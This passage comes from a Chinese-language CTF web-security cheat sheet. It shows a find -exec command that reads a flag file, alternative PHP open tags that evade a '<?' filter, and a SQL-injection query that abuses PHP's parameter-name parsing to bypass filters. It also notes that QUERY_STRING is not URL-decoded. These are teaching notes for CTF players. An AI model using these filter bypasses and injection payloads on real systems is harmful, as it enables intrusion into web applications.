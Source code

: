 

```bash
 find /HackersForever -exec cat /flag {} \;
```

需要{} \;结尾



#### 46. php文件的多种解析方法

```php
<? echo ("这是一个 PHP 语言的嵌入范例\n"); ?>
<?php echo("这是第二个 PHP 语言的嵌入范例\n"); ?>
<script language="php"> 
echo ("这是类似 JavaScript 及 VBScript 语法
的 PHP 语言嵌入范例");
</script>
<% echo ("这是类似 ASP 嵌入语法的 PHP 范例"); %>
```



过滤了<?后可以用别的几种



#### 47. PHP的字符串解析特性bypass 含下划线变量

```
/news.php?%20news[id%00=42"+AND+1=0--
```

上述PHP语句的参数%20news[id%00的值将存储到$_GET["news_id"]中。

PHP需要将所有参数转换为有效的变量名，因此在解析查询字符串时，它会做两件事：

> ​    1.删除空白符
>
> ​    2.将某些字符转换为下划线（包括空格）

例如：

|  User input   | Decoded PHP | variable name |
| :-----------: | :---------: | :-----------: |
| %20foo_bar%00 |   foo_bar   |    foo_bar    |
| foo%20bar%00  |   foo bar   |    foo_bar    |
|   foo%5bbar   |   foo[bar   |    foo_bar    |



例如，我要获得b_u_u_t





#### 48.`$_SERVER['QUERY_STRING']`绕过

`$_SERVER['QUERY_STRING']`不会进行URLDecode，而`$_GET[]`会将参数进行URLDecode
